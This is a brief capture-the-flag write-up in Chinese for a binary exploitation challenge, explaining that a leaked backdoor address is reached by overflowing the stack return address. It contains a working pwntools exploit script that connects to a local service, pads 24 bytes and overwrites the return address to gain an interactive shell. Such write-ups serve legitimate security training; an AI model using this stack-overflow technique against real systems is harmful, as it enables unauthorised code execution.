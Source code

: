 ## 思路

白给backdoor，栈溢出把返回地址盖成backdoor

## EXP

```c
from pwn import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'

p=remote('127.0.0.1',9999)
p.recvuntil(b'Give you the backdoor: 0x')
backdoor=int(p.recvline()[:-1].decode(),16)
print(hex(backdoor))
p.sendlineafter(b'Something to tell me?\n',b'a'*24+p64(backdoor))
p.interactive()
```

